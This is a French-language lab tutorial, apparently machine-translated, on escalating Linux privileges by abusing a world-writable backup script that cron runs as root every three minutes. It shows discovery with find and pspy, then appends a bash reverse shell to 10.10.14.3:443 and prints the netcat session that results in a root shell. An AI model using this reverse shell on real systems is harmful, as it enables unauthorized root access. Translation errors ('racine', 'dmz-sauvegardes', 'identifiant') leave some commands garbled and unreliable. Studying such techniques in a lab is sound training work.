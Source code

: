 Cron Job Abus
==============

* * * * *

Les tâches cron peuvent également être configurées pour être exécutées une seule fois (par exemple au démarrage). Ils sont généralement utilisés pour des tâches administratives telles que l'exécution de sauvegardes, le nettoyage de répertoires, etc. La commande `crontab` peut créer un fichier cron, qui sera exécuté par le démon cron selon le calendrier spécifié. Une fois créé, le fichier cron sera créé dans `/var/spool/cron` pour l'utilisateur spécifique qui le crée. Chaque entrée du fichier crontab nécessite six éléments dans l'ordre suivant : minutes, heures, jours, mois, semaines, commandes. Par exemple, l'entrée `0 */12 * * * /home/admin/backup.sh` s'exécute toutes les 12 heures.

La crontab root est presque toujours modifiable uniquement par l'utilisateur root ou un utilisateur disposant de tous les privilèges sudo ; cependant, il peut encore être abusé. Vous pouvez trouver un script accessible en écriture par tout le monde qui s'exécute en tant que root et, même si vous ne pouvez pas lire le crontab pour connaître le calendrier exact, vous pourrez peut-être déterminer la fréquence à laquelle il s'exécute (c'est-à-dire un script de sauvegarde qui crée un `.tar. gz` fichier toutes les 12 heures). Dans ce cas, vous pouvez ajouter une commande à la fin du script (comme un shell inversé à une ligne) et elle s'exécutera la prochaine fois que la tâche cron s'exécutera.

Certaines applications créent des fichiers cron dans le répertoire `/etc/cron.d` et peuvent être mal configurées pour permettre à un utilisateur non root de les modifier.

Tout d'abord, examinons le système à la recherche de fichiers ou de répertoires inscriptibles. Le fichier `backup.sh` dans le répertoire `/dmz-backups` est intéressant et semble s'exécuter sur une tâche cron.

```
dsgsec@htb[/htb]$ find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null

/etc/cron.daily/backup
/dmz-backups/backup.sh
/proc
/sys/fs/cgroup/memory/init.scope/cgroup.event_control

<SNIP>
/home/backupsvc/backup.sh

<SNIP>

```

Un coup d'œil rapide dans le répertoire `/dmz/backups` indique ce qui semble être des fichiers créés toutes les trois minutes. Cela semble être une mauvaise configuration majeure. Peut-être que l'administrateur système voulait spécifier toutes les trois heures comme `0 */3 * * *` mais a plutôt écrit `*/3 * * * *`, ce qui indique à la tâche cron de s'exécuter toutes les trois minutes. Le deuxième problème est que le script shell `backup.sh` est accessible en écriture par tous et s'exécute en tant que root.

```
dsgsec@htb[/htb]$ ls -la /dmz-backups/

total 36
drwxrwxrwx 2 racine racine 4096 31 août 02:39.
drwxr-xr-x 24 racine racine 4096 31 août 02:24 ..
-rwxrwxrwx 1 racine racine 230 31 août 02:39 backup.sh
-rw-r--r-- 1 racine racine 3336 31 août 02:24 www-backup-2020831-02:24:01.tgz
-rw-r--r-- 1 racine racine 3336 31 août 02:27 www-backup-2020831-02:27:01.tgz
-rw-r--r-- 1 racine racine 3336 31 août 02:30 www-backup-2020831-02:30:01.tgz
-rw-r--r-- 1 racine racine 3336 31 août 02:33 www-backup-2020831-02:33:01.tgz
-rw-r--r-- 1 racine racine 3336 31 août 02:36 www-backup-2020831-02:36:01.tgz
-rw-r--r-- 1 racine racine 3336 31 août 02:39 www-backup-2020831-02:39:01.tgz

```

Nous pouvons confirmer qu'une tâche cron est en cours d'exécution à l'aide de [pspy](https://github.com/DominicBreuker/pspy), un outil de ligne de commande utilisé pour afficher les processus en cours d'exécution sans avoir besoin de privilèges root. Nous pouvons l'utiliser pour voir les commandes exécutées par d'autres utilisateurs, les tâches cron, etc. Cela fonctionne en analysant [procfs](https://en.wikipedia.org/wiki/Procfs).

Exécutons `pspy` et regardons. L'indicateur `-pf` indique à l'outil d'imprimer les commandes et les événements du système de fichiers et `-i 1000` lui indique d'analyser [profcs](https://man7.org/linux/man-pages/man5/procfs.5. html) toutes les 1 000 ms (ou toutes les secondes).

```
dsgsec@htb[/htb]$ ./pspy64 -pf -i 1000

pspy - version : v1.2.0 - Commit SHA : 9c63e5d6c58f7bcdc235db663f5e3fe1c33b8855

      ██▓███ ██████ ██▓███ ▓██ ██▓
     ▓██░ ██▒▒██ ▒ ▓██░ ██▒▒██ ██▒
     ▓██░ ██▓▒░ ▓██▄ ▓██░ ██▓▒ ▒██ ██░
     ▒██▄█▓▒ ▒ ▒ ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
     ▒██▒ ░ ░▒██████▒▒▒██▒ ░ ░ ░ ██▒▓░
     ▒▓▒░ ░ ░▒ ▒▓▒ ▒ ░▒▓▒░ ░ ░ ██▒▒▒
     ░▒ ░ ░ ░▒ ░ ░░▒ ░ ▓██ ░▒░
     ░░ ░ ░ ░ ░░ ▒ ▒ ░░
                    ░ ░ ░
                                ░ ░

Config : Événements d'impression (colorés=true) : processus=true | file-system-events=true ||| Recherche de processus toutes les 1 s et lors d'événements inotify ||| Répertoires de surveillance : [/usr /tmp /etc /home /var /opt] (récursif) | [] (non récursif)
Vidange des événements du système de fichiers en raison du démarrage...
fait
2020/09/04 20:45:03 CMD : UID=0 PID=999 | /usr/bin/VGAuthService
2020/09/04 20:45:03 CMD : UID=111 PID=990 | /usr/bin/dbus-daemon --system --address=systemd: --nofork --nopidfile --systemd-activation
2020/09/04 20:45:03 CMD : UID=0 PID=99 |
2020/09/04 20:45:03 CMD : UID=0 PID=988 | /usr/lib/snapd/snapd

<SNIP>

2020/09/04 20:45:03 CMD : UID=0 PID=1017 | /usr/sbin/cron -f
2020/09/04 20:45:03 CMD : UID=0 PID=1010 | /usr/sbin/atd -f
2020/09/04 20:45:03 CMD : UID=0 PID=1003 | /usr/lib/accountsservice/accounts-daemon
2020/09/04 20:45:03 CMD : UID=0 PID=1001 | /lib/systemd/systemd-logind
2020/09/04 20:45:03 CMD : UID=0 PID=10 |
2020/09/04 20:45:03 CMD : UID=0 PID=1 | /sbin/init
2020/09/04 20:46:01 FS : OUVERT | /usr/lib/locale/locale-archive
2020/09/04 20:46:01 CMD : UID=0 PID=2201 | /bin/bash/dmz-backups/backup.sh
2020/09/04 20:46:01 CMD : UID=0 PID=2200 | /bin/sh -c /dmz-backups/backup.sh
2020/09/04 20:46:01 FS : OUVERT | /usr/lib/x86_64-linux-gnu/gconv/gconv-modules.cache
2020/09/04 20:46:01 CMD : UID=0 PID=2199 | /usr/sbin/CRON-f
2020/09/04 20:46:01 FS : OUVERT | /usr/lib/locale/locale-archive
2020/09/04 20:46:01 CMD : UID=0 PID=2203 |
2020/09/04 20:46:01 FS : CLOSE_NOWRITE | /usr/lib/locale/locale-archive
2020/09/04 20:46:01 FS : OUVERT | /usr/lib/locale/locale-archive
2020/09/04 20:46:01 FS : CLOSE_NOWRITE | /usr/lib/locale/locale-archive
2020/09/04 20:46:01 CMD : UID=0 PID=2204 | tar --absolute-names --create --gzip --file=/dmz-backups/www-backup-202094-20:46:01.tgz /var/www/html
2020/09/04 20:46:01 FS : OUVERT | /usr/lib/locale/locale-archive
2020/09/04 20:46:01 CMD : UID=0 PID=2205 | gzip
2020/09/04 20:46:03 FS : CLOSE_NOWRITE | /usr/lib/locale/locale-archive
2020/09/04 20:46:03 CMD : UID=0 PID=2206 | /bin/bash /dmz-backups/backup.sh
2020/09/04 20:46:03 FS : CLOSE_NOWRITE | /usr/lib/x86_64-linux-gnu/gconv/gconv-modules.cache
2020/09/04 20:46:03 FS : CLOSE_NOWRITE | /usr/lib/locale/locale-archive

```

À partir de la sortie ci-dessus, nous pouvons voir qu'une tâche cron exécute le script `backup.sh` situé dans le répertoire `/dmz-backups` et crée un fichier tarball du contenu du répertoire `/var/www/html` .

Nous pouvons regarder le script shell et lui ajouter une commande pour tenter d'obtenir un shell inversé en tant que root. Si vous modifiez un script, assurez-vous de `TOUJOURS` faire une copie du script et/ou en créer une sauvegarde. Nous devrions également essayer d'ajouter nos commandes à la fin du script pour continuer à fonctionner correctement avant d'exécuter notre commande reverse shell.

```
dsgsec@htb[/htb]$ cat /dmz-backups/backup.sh

#!/bin/bash
  SRCDIR="/var/www/html"
  DESTDIR="/dmz-sauvegardes/"
  FILENAME=www-backup-$(date +%-Y%-m%-d)-$(date +%-T).tgz
  tar --absolute-names --create --gzip --file=$DESTDIR$FILENAME $SRCDIR

```

Nous pouvons voir que le script prend simplement un répertoire source et destination en tant que variables. Il spécifie ensuite un nom de fichier avec la date et l'heure actuelles de la sauvegarde et crée une archive tar du répertoire source, le répertoire racine Web. Modifions le script pour ajouter un [shell inversé bash à une ligne](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).

Code : bash

```
#!/bin/bash
SRCDIR="/var/www/html"
DESTDIR="/dmz-sauvegardes/"
FILENAME=www-backup-$(date +%-Y%-m%-d)-$(date +%-T).tgz
tar --absolute-names --create --gzip --file=$DESTDIR$FILENAME $SRCDIR

bash -i >& /dev/tcp/10.10.14.3/443 0>&1

```

Nous modifions le script, lançons un écouteur `netcat` local et attendons. Effectivement, en trois minutes, nous avons un root shell !

```
dsgsec@htb[/htb]$ nc -lnvp 443

écoute sur [tout] 443 ...
se connecter à [10.10.14.3] depuis (INCONNU) [10.129.2.12] 38882
bash : impossible de définir le groupe de processus de terminal (9143) : ioctl inapproprié pour le périphérique
bash : pas de contrôle des tâches dans ce shell

root@NIX02 :~# identifiant
identifiant
uid=0(racine) gid=0(racine) groupes=0(racine)

root@NIX02 :~# nom d'hôte
nom d'hôte
NIX02

```

`\
`
